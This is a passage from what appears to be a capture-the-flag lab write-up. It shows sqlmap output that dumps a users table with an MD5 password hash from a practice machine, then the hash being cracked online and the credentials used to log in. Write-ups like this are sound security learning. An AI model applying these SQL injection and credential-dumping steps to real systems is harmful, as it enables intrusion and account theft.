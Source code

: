 ```text
[22:43:58] [INFO] retrieving the length of query output
[22:43:58] [INFO] retrieved: 1
[22:43:58] [INFO] retrieved: 1
[22:43:59] [INFO] retrieving the length of query output
[22:43:59] [INFO] retrieved: 32
[22:44:06] [INFO] retrieved: fdc8cd4cff2c19e0d1022e78481ddf36
[22:44:06] [INFO] retrieving the length of query output
[22:44:06] [INFO] retrieved: 5
[22:44:08] [INFO] retrieved: RickA
[22:44:08] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[22:44:56] [INFO] writing hashes to a temporary file '/tmp/sqlmapTeuAcx3385/sqlmaphashes-zSyUmd.txt'
do you want to crack them via a dictionary-based attack? [Y/n/q]
[22:45:01] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[22:45:06] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[22:45:12] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[22:45:12] [INFO] starting 2 processes
[22:47:34] [WARNING] no clear password(s) found
Database: SQLite_masterdb
Table: users
[1 entry]
+----+---+--------+----------+----------------------------------+
| id | 1 | active | username | password                         |
+----+---+--------+----------+----------------------------------+
| 1  | 1 | 1      | RickA    | fdc8cd4cff2c19e0d1022e78481ddf36 |
+----+---+--------+----------+----------------------------------+
[22:47:34] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/root/.sqlmap/output/10.10.10.25/dump/SQLite_masterdb/users.csv'
[22:47:34] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.25'
[*] ending @ 22:47:34 /2020-06-14/
```

We now have a username and a hashed password, see if we can [crack it](https://md5hashing.net/hash/md5/fdc8cd4cff2c19e0d1022e78481ddf36):

![crack_hash](/assets/images/2020-06-19-16-18-26.png)

We can now go back to login page and use these credentials, we end up at the Bookings page. Hovering over the first link we see the URL:
